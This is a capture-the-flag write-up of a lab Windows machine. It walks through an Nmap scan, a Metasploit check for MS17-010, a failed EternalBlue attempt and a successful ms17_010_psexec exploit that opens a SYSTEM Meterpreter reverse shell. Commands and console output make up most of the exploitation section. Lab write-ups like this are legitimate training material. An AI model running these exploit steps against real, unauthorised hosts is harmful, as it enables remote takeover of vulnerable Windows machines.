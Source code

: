 
# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:~# nmap 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-17 03:18 EDT
Nmap scan report for 10.10.10.4
Host is up (0.21s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE
139/tcp  open   netbios-ssn
445/tcp  open   microsoft-ds
3389/tcp closed ms-wbt-server

```
From the above output we can see that ports, **139** and **445** are open.

Since 445 is open let's try to check if it's vulnerable to Eternalblue

```console
msf5 > search eternalblue

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```
Let's go ahead and check if the box is vulnerable to Eternal Blue, we use `auxiliary/scanner/smb/smb_ms17_010`.

Set value of RHOSTS to 10.10.10.4 and run the module

```console
msf5 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Here we see it is likely vulnerable to eternal blue. Let's try exploiting it.

[//]:![FTP](./Lame/ftp.png)
[//]:# ( **Figure 1:** FTP Anonymous Login Possible)

# Exploitation  

[//]:# (Google reveals that there's a metasploit module for the vulnerability. Going ahead and starting msfconsole and searching for samba.)

Using exploit `windows/smb/ms17_010_eternalblue` and setting RHOSTS 10.10.10.4

```console
msf5 exploit(windows/smb/ms17_010_eternalblue) > options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.4       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

Let's run the module now.

```console
[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.4:445        - Host is likely VULNERABLE to MS17-010! - Windows 5.1
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.10.4:445 - Connecting to target for exploitation.
[+] 10.10.10.4:445 - Connection established for exploitation.
[+] 10.10.10.4:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.4:445 - CORE raw buffer dump (11 bytes)
[*] 10.10.10.4:445 - 0x00000000  57 69 6e 64 6f 77 73 20 35 2e 31                 Windows 5.1     
[+] 10.10.10.4:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.4:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.4:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.4:445 - Starting non-paged pool grooming
[+] 10.10.10.4:445 - Sending SMBv2 buffers
[+] 10.10.10.4:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.4:445 - Sending final SMBv2 buffers.
[*] 10.10.10.4:445 - Sending last fragment of exploit packet!
[*] 10.10.10.4:445 - Receiving response from exploit packet
[+] 10.10.10.4:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.4:445 - Sending egg to corrupted connection.
[*] 10.10.10.4:445 - Triggering free of corrupted buffer.
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.10.4:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```
Exploit failed.

We try `exploit/windows/smb/ms17_010_psexec` EternalRomance SMB Vuln.
Use the module, set rhosts to the IP of the box and run.

```console
msf5 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.14:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x8230a598
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... jjcqgneP.exe
[*] 10.10.10.4:445 - Created \jjcqgneP.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (180291 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \jjcqgneP.exe...
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.4:1036) at 2020-03-17 03:48:58 -0400

meterpreter > 
```

Got a session!

## User Flag

In order to get the user flag, we change the directory to the user Desktop 'john' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
Overall the box was pretty easy as the exploits were straight forward and there was no need for a privesc. Both root and user could be owned in a single exploit.


